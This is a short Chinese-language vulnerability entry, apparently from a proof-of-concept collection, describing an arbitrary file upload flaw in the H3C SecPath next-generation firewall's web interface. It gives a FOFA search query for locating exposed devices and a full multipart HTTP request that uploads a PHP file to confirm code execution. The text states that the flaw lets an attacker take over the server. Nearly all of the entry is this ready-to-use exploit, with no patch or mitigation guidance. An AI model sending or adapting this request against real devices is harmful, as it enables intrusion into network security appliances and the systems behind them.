 # H3C-SecPath下一代防火墙local_cert_delete_both存在任意文件上传漏洞

H3C SecPath 下一代防火墙 存在任意文件上传漏洞，攻击者通过漏洞获取服务器权限。

## fofa

```yaml
title="Web user login"
```

## poc

```yaml
POST /webui/?g=local_cert_delete_both HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 345
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=ed63f728755e4a2f90d094ec09b0ed9a

--ed63f728755e4a2f90d094ec09b0ed9a
Content-Disposition: form-data; name="submit_post"

local_cert_import
--ed63f728755e4a2f90d094ec09b0ed9a
Content-Disposition: form-data; name="key_file_name"; filename="QyFlQF.php"
Content-Type: text/plain

<?php echo md5('OmwiBdiyupqeAlMJ');@unlink(__file__);?>
--ed63f728755e4a2f90d094ec09b0ed9a--
```

